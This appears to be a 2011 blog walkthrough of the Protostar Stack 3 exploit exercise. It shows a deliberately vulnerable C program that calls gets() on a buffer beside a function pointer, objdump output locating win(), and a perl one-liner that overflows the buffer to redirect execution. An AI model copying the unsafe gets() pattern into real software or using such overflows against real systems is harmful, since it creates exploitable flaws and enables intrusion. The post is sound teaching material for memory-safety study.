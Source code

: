 ```yaml
---
title: "Exploit Exercises - Protostar Stack 3"
date: "2011-12-15T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-3.html"
 - "/2011/12/14/exploit-exercises-protostar-stack-3"
 - "/2011/12/15/exploit-exercises-protostar-stack-3"
---
```


[This](http://exploit-exercises.com/protostar/stack3) challenge starts getting a little bit more involved than the previous ones.  Instead of just providing a new value for the "modified" variable, we need to make the code jump to a method, changing the execution.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```

This means that first of all, we need to find the address of where the "win()" function is located in the program.  To do this, I used objdump, however you could use gdb as well, or any other disassembly program.  I have cut the useful part of the output below, since it gives a <i>lot</i> of information we don't need.

```
user@protostar:/opt/protostar/bin$ objdump -d stack3
...

08048424 <win>:
8048424:       55                      push   %ebp
8048425:       89 e5                   mov    %esp,%ebp
8048427:       83 ec 18                sub    $0x18,%esp
804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
8048436:       c9                      leave
8048437:       c3                      ret
...
```

From this, we can now see that the "win()" function is located at 0x08048424 in the memory.  So if we can get our program to jump there, it will execute that code.  Luckily the "fp" pointer in the code gets called if it is not equal to 0.  We just need to overwrite it with the memory value of "win()" by doing the following:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
